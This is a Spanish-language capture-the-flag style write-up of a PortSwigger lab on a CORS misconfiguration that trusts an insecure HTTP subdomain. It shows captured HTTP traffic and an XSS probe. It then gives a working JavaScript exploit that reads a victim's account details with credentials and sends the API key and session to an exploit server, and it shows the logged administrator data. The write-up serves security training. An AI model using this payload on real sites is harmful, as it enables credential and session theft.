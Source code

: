 ```yaml
---
description: https://portswigger.net/web-security/cors/lab-breaking-https-attack
---
```


# Lab 3: CORS vulnerability with trusted insecure protocols

Primero iniciamos sesion y capturamos la siguiente peticion:

```
GET /accountDetails HTTP/2
Host: 0a5000120438c0d181938e1900bb00e7.web-security-academy.net
Cookie: session=BMGMCpBoyKZqvljTK4JLclKbfPUzUi3f
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a5000120438c0d181938e1900bb00e7.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i


```

La peticion previa responde asi:

```
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "zZYurR0j8yVuO0G4rUgOEQ3BDPCa1k63",
  "sessions": [
    "BMGMCpBoyKZqvljTK4JLclKbfPUzUi3f"
  ]
}
```

Y tambien se identifica la siguiente peticion al clickear en check stock:

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

La peticion es:

```
GET /?productId=1&storeId=1 HTTP/1.1
Host: stock.0a5000120438c0d181938e1900bb00e7.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Connection: keep-alive


```

Y la respuesta es:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=xcDseBBRQ3hSmUgsF5uWLEusdjSmvaWk; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 16

Stock level: 394
```

Se puede apreciar Access-Control-Allow-Credentials: true y por lo anterior, enviamos la siguiente peticion:

```
GET /accountDetails HTTP/2
Host: 0a5000120438c0d181938e1900bb00e7.web-security-academy.net
Cookie: session=jv44EUnL4EjHlw0QR2FOyfIxJPWolEj3
Origin: https://exploit-0ac800cb046a13ad81b1ce40010f001a.exploit-server.net/
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i


```

Pero no funciona:

```
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "uQASsz6qb00wbSWwMYA3ssCglHbumhoP",
  "sessions": [
    "jv44EUnL4EjHlw0QR2FOyfIxJPWolEj3"
  ]
}
```

Por lo anterior, autorizamos el subdominio:

```bash
GET /accountDetails HTTP/2
Host: 0a5000120438c0d181938e1900bb00e7.web-security-academy.net
Origin: http://stock.0a5000120438c0d181938e1900bb00e7.web-security-academy.net
Cookie: session=BMGMCpBoyKZqvljTK4JLclKbfPUzUi3f
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a5000120438c0d181938e1900bb00e7.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i


```

Y con el subdominio si funciono:

```bash
HTTP/2 200 OK
Access-Control-Allow-Origin: http://stock.0a5000120438c0d181938e1900bb00e7.web-security-academy.net
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "zZYurR0j8yVuO0G4rUgOEQ3BDPCa1k63",
  "sessions": [
    "BMGMCpBoyKZqvljTK4JLclKbfPUzUi3f"
  ]
}
```

Y adicionalmente, se detecta que el aplicativo web stock es susceptible a ataques de XSS:

{% code overflow="wrap" %}
```url
http://stock.0ace001004cb5c4384df4662009c00d6.web-security-academy.net/?productId=4%3Cscript%3Ealert(2024)%3C/script%3E&storeId=1
```
{% endcode %}

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Teniendo en cuenta lo anterior, se desarrolla el siguiente exploit:

```html
<script>
    // Redirige la ubicación actual del documento a una URL específica
    document.location="http://stock.0a5000120438c0d181938e1900bb00e7.web-security-academy.net/?productId=4<script>
    
    // Crea un nuevo objeto XMLHttpRequest para realizar solicitudes HTTP en segundo plano
    var req = new XMLHttpRequest();
    
    // Define la función que se ejecutará cuando la solicitud se complete con éxito
    req.onload = reqListener;
    
    // Abre una solicitud GET a la URL especificada
    req.open('get','https://0a5000120438c0d181938e1900bb00e7.web-security-academy.net/accountDetails',true);
    
    // Incluye las credenciales (cookies, cabeceras de autenticación) en la solicitud
    req.withCredentials = true;
    
    // Envía la solicitud HTTP
    req.send();
    
    // Define la función que maneja la respuesta de la solicitud
    function reqListener() {
        // Redirige el navegador a la URL del servidor de explotación, pasando la respuesta como parámetro
        location='https://exploit-0a2100ff0465c0dd81cd8dbc0104000f.exploit-server.net/log?key=' + this.responseText;
    };
    
    // Cierra la etiqueta <script> inyectada
    %3c/script>
    
    // Añade un parámetro adicional a la URL de redirección
    &storeId=1"
</script>
```

En este escenario, el servidor web de `web-security-academy.net` está configurado para confiar en todos los subdominios sin importar el protocolo. Esto significa que cualquier subdominio bajo `web-security-academy.net`, como `stock.0a5000120438c0d181938e1900bb00e7.web-security-academy.net`, es automáticamente autorizado a realizar peticiones cross-origin a `0a5000120438c0d181938e1900bb00e7.web-security-academy.net`

Y luego de lo anterior, se envia la URL del exploit server a la victima:

Se recibe el siguiente Log:

{% code overflow="wrap" %}
```
10.0.4.192      2024-07-02 16:05:48 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22R79v19o3c806LE3uqDV6jWs3LZUDT6nE%22,%20%20%22sessions%22:%20[%20%20%20%20%22Flkp523j6bUAJX1R1BCgm7vamY3aFjc6%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```
{% endcode %}

Al decodificar en formato URL se obtiene lo siguiente:

{% code overflow="wrap" %}
```json
{
    "username": "administrator",
    "email": "",
    "apikey": "R79v19o3c806LE3uqDV6jWs3LZUDT6nE",
    "sessions": ["Flkp523j6bUAJX1R1BCgm7vamY3aFjc6"]
}
```
{% endcode %}
